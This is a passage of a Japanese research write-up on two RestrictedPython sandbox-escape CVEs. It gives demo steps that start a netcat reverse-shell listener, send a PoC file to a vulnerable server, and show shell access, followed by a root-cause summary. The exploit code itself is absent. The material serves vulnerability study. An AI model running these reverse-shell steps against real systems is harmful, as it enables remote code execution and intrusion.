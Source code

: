 ```python
```

#### デモ動画とPoC実行手順

<iframe width="800" height="500" src="https://www.youtube.com/embed/FApgqAJBNi0?si=ki4wwaxz40pxJPWu" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

---

**コンテナ内でのコマンド**

```console
# Python実行サーバー起動（攻撃が再現するバージョンを指定）
./run-server.sh 6.1
```

---

**ホストマシンでのコマンド**

```console
# 別シェルで、reverse-shell待機
nc -l -p 9999  # MacOSだと nc -nvl 9999

# ---
cd dp-system-research/demo/RestrictedPython-CVE

# PoCコード投入
nc localhost 6000 < ./example/cve_2023_41039.py

# ---
# 別シェルで、サーバーサイドのシェル操作ができるようになっている
uname -a
Linux 6b9a20d3e2ad 6.6.22-linuxkit #1 SMP Fri Mar 29 12:21:27 UTC 2024 aarch64 GNU/Linux
```

## Takeaway

### 何が起きていたか？

RestrictedPythoonの2つのCVEについて詳説し、RCEを悪用してReverse-shellを獲得するデモを提供した。

それぞれのCVEの原因を振り返る:

- CVE-2023-37271
  - **前提**: スタックフレームにアクセスされると、遡上してsandbox escapeできてしまう
  - **開発者の意図**: スタックフレームへのアクセスを**塞ぐ**
  - **攻撃の切り口**: ジェネレーターオブジェクトからスタックフレームにアクセスできた
- CVE-2023-41039
  - **前提**: **init** などの関数オブジェクトを辿れると os などの危険なビルトインモジュールにアクセスされてしまう
  - **開発者の意図**: _ で始まるアトリビュートへのアクセスを**塞ぐ**
  - **攻撃の切り口**: string.Formatter.format() の書式文字列を使って _ で始まるアトリビュートへアクセスできた

---